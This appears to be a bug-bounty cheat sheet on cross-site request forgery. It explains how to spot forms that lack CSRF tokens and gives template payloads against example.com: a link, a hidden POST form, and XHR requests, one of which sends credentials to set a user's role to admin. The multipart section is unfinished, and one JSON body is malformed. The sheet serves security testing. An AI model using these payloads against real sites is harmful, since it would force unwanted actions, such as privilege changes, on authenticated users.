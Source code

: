 # Cross Site Request Forgery (CSRF)

## Introduction
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated

## How to find
Usually found in forms. Try submit the form and check the HTTP request. If the HTTP request does not have a CSRF token then it is likely to be vulnerable to a CSRF attack. But in some cases, the CSRF token can be bypassed, try check this [List](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Bypass/Bypass%20CSRF.md)

## How to exploit
1. HTML GET Method

```html
<a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
```

2. HTML POST Method

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

3. JSON GET Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

4. JSON POST Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

5. Multipart request
Soon